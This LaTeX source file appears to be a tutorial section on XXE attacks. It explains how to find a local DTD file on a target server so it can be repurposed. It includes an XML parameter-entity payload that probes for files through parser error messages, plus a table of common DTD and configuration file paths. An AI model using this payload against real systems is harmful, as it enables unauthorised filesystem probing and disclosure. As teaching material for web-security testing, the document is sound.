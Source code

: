 \documentclass{article}
\begin{document}
\subsection{Locating an Existing DTD File to Repurpose}

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file.

\begin{infobox}
This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.
\end{infobox}

\subsubsection{DTD Discovery Payload}

To test whether a DTD file exists at a specific path:

\begin{lstlisting}[language=XML, caption=Testing for Local DTD Existence]
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
\end{lstlisting}

\begin{itemize}
    \item \textbf{If the file exists:} The DTD loads without error (or with DTD-specific errors)
    \item \textbf{If the file is missing:} The parser throws a file not found error
\end{itemize}

\subsubsection{Common DTD Locations by System}

\begin{table}[h]
\centering
\begin{tabular}{|l|l|}
\hline
\textbf{System/Software} & \textbf{Common DTD Paths} \\
\hline
Linux (GNOME) & /usr/share/yelp/dtd/docbookx.dtd \\
\hline
Linux (General) & /usr/share/xml/schema/ \\
\hline
Windows & C:\textbackslash Program Files\textbackslash Common Files\textbackslash \\
\hline
Apache Tomcat & /usr/share/tomcat/conf/web.xml (not DTD but useful) \\
\hline
Java Applications & /WEB-INF/web.xml, /META-INF/*.dtd \\
\hline
\end{tabular}
\caption{Common Local DTD Locations}
\end{table}
\end{document}
